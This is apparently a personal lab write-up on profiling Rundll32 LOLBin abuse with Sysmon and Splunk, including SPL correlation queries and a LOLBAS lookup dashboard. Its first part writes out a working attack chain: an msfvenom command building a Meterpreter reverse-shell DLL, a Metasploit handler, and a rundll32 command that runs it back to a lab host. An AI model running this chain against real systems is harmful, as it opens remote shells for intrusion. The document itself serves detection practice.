# Profiling Rundll32 and LOLBin Abuse in Splunk

Rundll32 is a legitimate Microsoft-signed Windows binary whose job is to load and run code from DLLs. That same job makes it useful to an attacker: they can run their own code through a trusted Windows binary instead of executing something that immediately stands out on its own. MITRE ATT&CK tracks this behavior as [T1218.011: Rundll32](https://attack.mitre.org/techniques/T1218/011/), and the [LOLBAS project](https://lolbas-project.github.io/) documents a number of ways Rundll32 can be abused.

For this lab, I wanted to do two things: execute a DLL through Rundll32 and study the Sysmon telemetry it produced, then bring LOLBAS data into Splunk and use it as investigation context for LOLBin activity.

## Part 1: Profiling Rundll32

### Generating and transferring the DLL

I had my DC, WIN11V, and LinuxA machines running. On LinuxA, I generated a DLL with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.137.139 -f dll -o evil.dll
```



I then started a basic Python HTTP server to transfer the DLL:

```bash
python3 -m http.server 9999
```



From WIN11V, I browsed to the server on LinuxA at `http://192.168.137.139:9999` and downloaded `evil.dll`.



### Executing the DLL through Rundll32

Back on LinuxA, I started Metasploit and configured a handler for the reverse connection:

```text
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.137.139
exploit -j
```



On WIN11V, I opened Command Prompt, moved to the Downloads directory, and executed the DLL through Rundll32:

```cmd
rundll32.exe evil.dll,DllMain
```

The handler received a Meterpreter session. I interacted with it, opened a shell, and ran `whoami`, `ipconfig`, and `hostname`.



That gave me the telemetry I was after. I wasn't exploiting a flaw in Rundll32 itself. I was leaning on a trusted Windows binary to run my DLL for me, which is exactly the behavior I wanted to learn to spot.

### Looking at Rundll32 command lines

I started with a broad look at Rundll32 process creation in Sysmon:

```spl
index=sysmon EventCode=1 Image="*rundll32*"
| stats values(CommandLine) as CommandLines by Image
```



The result makes the basic detection problem clear. Rundll32 appears in legitimate Windows activity too, so seeing `rundll32.exe` by itself is not enough. My `evil.dll,DllMain` execution appears alongside other Rundll32 command lines already present on the system.

### Parsing the DLL entry point

The command-line argument after `.dll,` gives me another field I can profile. I used `rex` to extract that value and count the entry points present in the search window:

```spl
index=sysmon EventCode=1 Image="*rundll32*"
| rex field=CommandLine "\.dll,(?<Export>.*)"
| stats values(CommandLine) as CommandLines count by Export
| sort - count
```



The search returned several entry points used by Rundll32 in this environment. Some appeared repeatedly, including `PcaPatchSdbTask`, `CapabilityAccessManagerDoStoreMaintenance`, and `StateRepositoryDoMaintenanceTasks`. `DllMain` appeared once, tied to my `evil.dll` execution.

This does not make `DllMain` universally malicious, but in this dataset it gave me another way to separate my test execution from the surrounding Rundll32 activity.

### Correlating the network connection correctly

I also wanted to connect the Rundll32 execution to the reverse connection back to LinuxA.

My first approach grouped process creation and network events by the `Image` field. That put `evil.dll,DllMain` and the connection to my LinuxA host in the same result, but it did not prove they came from the same Rundll32 process. Multiple Rundll32 processes were being collapsed together.

I reran the search using `ProcessGuid` as the correlation key:

```spl
index=sysmon (EventCode=1 OR EventCode=3) Image="*rundll32*"
| eval Image=lower(Image)
| stats values(CommandLine) as CommandLines
        values(DestinationIp) as DestinationIp
        values(DestinationPort) as DestinationPort
        by ProcessGuid Image
```

That showed something more interesting: the process that ran `evil.dll,DllMain` and the process that made the network connection had different Process GUIDs. I then checked the parent/child relationship and found that the network connection came from a child Rundll32 process spawned by the original execution.

To put the relevant events together, I searched the two Process GUIDs directly:

```spl
index=sysmon (EventCode=1 OR EventCode=3)
(ProcessGuid="{f06822d4-51f5-6a75-da02-000000002200}"
 OR ProcessGuid="{f06822d4-51f5-6a75-db02-000000002200}")
| table _time EventCode ProcessGuid ParentProcessGuid Image CommandLine DestinationIp DestinationPort
| sort 0 _time EventCode
```



The three events show the chain clearly:

- At `20:33:09`, Process GUID ending in `da02` ran `rundll32.exe evil.dll,DllMain`.
- At the same time, another Rundll32 process with Process GUID ending in `db02` was created with `da02` as its `ParentProcessGuid`.
- At `20:33:10`, that child process made a network connection to `192.168.137.139:4444`.

This was a useful correction to my original query. Grouping by executable name was enough to find something worth investigating, but `ProcessGuid` and `ParentProcessGuid` were needed to establish what actually happened.

### Following the process tree

The last angle I looked at was the process tree. I used the same `pstree` approach I have used in other labs, filtered here for Rundll32:

```spl
index=sysmon EventCode=1
| rex field=ParentImage "\x5c(?<ParentName>[^\x5c]+)$"
| rex field=Image "\x5c(?<ProcessName>[^\x5c]+)$"
| eval parent = ParentName." (".ParentProcessId.")"
| eval child = ProcessName." (".ProcessId.")"
| eval detail=strftime(_time,"%Y-%m-%d %H:%M:%S")." ".CommandLine
| pstree child=child parent=parent detail=detail spaces=50
| search tree=*rundll32*
| table tree
```



The tree gives the execution more context than a single process event. I can see the Rundll32 activity and the downstream processes created during the Meterpreter session, including `cmd.exe`, `ipconfig.exe`, and `whoami.exe`.

## Part 2: Bringing LOLBAS Data into Splunk

There are too many LOLBins to treat every binary as a one-off investigation. So I brought the LOLBAS dataset into Splunk as a lookup and paired it with a dashboard that combines local Sysmon activity with reference information about the selected binary.

For this part of the lab, I had my DC and WIN11A machines running.

### Importing the LOLBAS lookup

I downloaded the CSV from the [LOLBAS API page](https://lolbas-project.github.io/api/) and created a new lookup table file in Splunk under **Settings > Lookups**.



I filtered the lookup table files for LOLBAS and opened its permissions.



For this isolated lab, I changed **Object should appear in** to **All Apps** and gave **Everyone** read/write permissions. This was a lab configuration, not a production permission recommendation.



I verified that Splunk could read the imported dataset with:

```spl
| inputlookup lolbas.csv
```

I set the time range to **All Time** for the check.



At this point, I had the LOLBAS data available inside Splunk as a lookup.

### Building the investigation dashboard

The dashboard uses a dropdown to select a LOLBin. Its first panel searches Sysmon for the selected binary and returns the command lines and event types associated with it.



The second panel pulls the corresponding reference information from the LOLBAS lookup. For Rundll32, the data includes documented command patterns, descriptions and use cases, contributors, and detection references.



To create the dashboard, I opened **Dashboards > Create New Dashboard** in Splunk.





I loaded a dashboard XML template into Splunk and tested it against the LOLBAS lookup and the Sysmon telemetry in my lab. I did not write the dashboard XML from scratch; my work here was importing the LOLBAS data, configuring the lookup, loading the dashboard source, and validating the results against my telemetry.



After saving it, the dashboard was available in Splunk:



### Testing the dashboard against my Rundll32 execution

I selected `Rundll32.exe` and narrowed the time range to the window around my test execution.



The Sysmon panel surfaced `rundll32.exe evil.dll,DllMain` along with Rundll32 event types that included process creation and a network connection. Scrolling down to the LOLBAS panel gave me the reference context for the same binary, including the documented `rundll32.exe {PATH},EntryPoint` pattern and links to detection material.

The dashboard doesn't flag every Rundll32 event as malicious. It's an investigation aid: the Sysmon panel shows what Rundll32 actually did in my environment, while the LOLBAS lookup gives me external context for how that binary can be abused.

## What I Learned

The most useful part of this lab was seeing why a LOLBin needs context. Rundll32 is common enough that the process name alone tells me very little. Command-line arguments and entry points gave me more detail, and the process tree showed what happened after execution.

